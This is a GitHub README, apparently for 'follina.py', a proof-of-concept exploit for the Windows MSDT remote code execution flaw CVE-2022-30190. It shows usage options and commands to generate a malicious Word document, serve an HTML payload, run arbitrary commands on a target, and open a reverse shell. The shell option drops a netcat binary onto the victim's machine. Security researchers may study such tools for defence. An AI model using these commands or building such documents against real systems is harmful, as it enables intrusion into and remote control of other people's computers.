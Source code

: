 # CVE-2022-30190
Microsoft Windows Support Diagnostic Tool RCE   
&nbsp;

## POC
![poc](./poc.png)
&nbsp;

## Usage
```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```
&nbsp;

# Examples

### Pop calc.exe:
```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

### Pop notepad.exe:
```
$ python3 follina.py -c "notepad"
```

### Get a reverse shell on port 9001.
```
$ python3 follina.py -r 9001
```
Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.
</br>&nbsp;

## How Does It Works
![poc](./how-work.png)
</br>&nbsp;

## Credit
[JohnHammond](https://github.com/JohnHammond/msdt-follina/blob/main/README.md)'s github page.</br>
[sans](https://isc.sans.edu/forums/diary/New+Microsoft+Office+Attack+Vector+via+msmsdt+Protocol+Scheme+CVE202230190/28694)'s webpage.</br>
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or buy me a [Coffee](https://buymeacoffee.com/NafisiAslH)

